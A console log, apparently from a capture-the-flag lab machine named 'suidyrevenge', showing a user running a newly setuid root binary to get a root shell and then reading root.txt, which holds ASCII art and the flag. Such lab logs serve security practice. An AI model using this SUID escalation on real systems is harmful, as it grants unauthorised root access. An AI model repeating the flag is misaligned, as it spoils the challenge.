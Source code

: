 ```console
theuser@suidyrevenge:/home/suidy$ ls -l suidyyyyy 
-rwxrwx--- 1 root theuser 16712 May 19 12:12 suidyyyyy
theuser@suidyrevenge:/home/suidy$ ls -l suidyyyyy 
-rwsrws--- 1 root theuser 16712 May 19 12:12 suidyyyyy
theuser@suidyrevenge:/home/suidy$ ./suidyyyyy
root@suidyrevenge:/home/suidy# id
uid=0(root) gid=0(root) groups=0(root),1004(theuser)
root@suidyrevenge:/home/suidy# cd /root
root@suidyrevenge:/root# ls
root.txt  script.sh  suidyyyyy
root@suidyrevenge:/root# cat root.txt
                                                                                
                                   .     **                                     
                                *           *.                                  
                                              ,*                                
                                                 *,                             
                         ,                         ,*                           
                      .,                              *,                        
                    /                                    *                      
                 ,*                                        *,                   
               /.                                            .*.                
             *                                                  **              
             ,*                                               ,*                
                **                                          *.                  
                   **                                    **.                    
                     ,*                                **                       
                        *,                          ,*                          
                           *                      **                            
                             *,                .*                               
                                *.           **                                 
                                  **      ,*,                                   
                                     ** *,                                      
                                                                                
                                                                                
HMVvoilarootlala
```


